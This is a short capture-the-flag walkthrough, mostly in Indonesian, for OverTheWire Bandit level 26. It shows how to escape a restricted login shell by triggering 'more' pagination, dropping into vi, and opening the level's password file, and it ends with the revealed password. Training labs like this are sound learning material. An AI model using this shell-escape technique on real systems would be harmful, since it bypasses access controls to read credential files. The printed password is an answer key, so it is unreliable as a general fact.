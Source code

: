 # Level Goal
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

# Commands you may need to solve this level
ssh, cat, more, vi, ls, id, pwd

# Solusi
diberikan file ***bandit26.sshkey***\
langsung kita koneksian tiba tiba langsung keluar 
```
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
Connection to localhost closed.
```
kita lihat apa yang terjadi
```
bandit25@bandit:/etc$ cat /etc/passwd | grep 'bandit26'
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
kita cetak untuk informasi detail
```
bandit25@bandit:/etc$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
kita resize pada terminal paling kecil pada saat login ke bandit26 lalu tekan ***v*** lalu tekan ***:***
```
e /etc/bandit_pass/bandit26
```
dimana ***e*** digunakan untuk edit

didapatkan password
<details>
<summary>Password</summary>
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
</details>